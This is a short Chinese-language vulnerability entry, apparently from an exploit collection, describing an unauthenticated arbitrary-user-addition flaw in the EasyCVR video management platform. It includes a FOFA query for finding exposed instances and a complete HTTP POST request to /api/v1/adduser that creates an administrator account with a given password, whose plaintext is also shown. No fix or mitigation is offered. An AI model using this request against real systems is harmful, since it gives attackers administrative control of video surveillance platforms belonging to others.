 **漏洞名称**

EasyCVR视频管理平台存在任意用户添加漏洞

**漏洞影响**

EasyCVR 视频管理平台 版本不详

**漏洞描述**

EasyCVR 视频管理平台是 TSINGSEE 青犀视频旗下一款软硬一体的产品，可提供多协议的设备接入、采集、AI 智能检测、处理、分发等服务，攻击者可通过/api/v1/adduser接口添加管理员账户

**FOFA搜索语句**

app="EasyCVR-视频管理平台"

**漏洞复现**

```yaml
POST /api/v1/adduser HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

name=admin888&username=admin888&password=0e7517141fb53f21ee439b355b5a1d0a&roleid=1
```

```
0e7517141fb53f21ee439b355b5a1d0a` 明文为 `Admin@123
```

漏洞复现成功



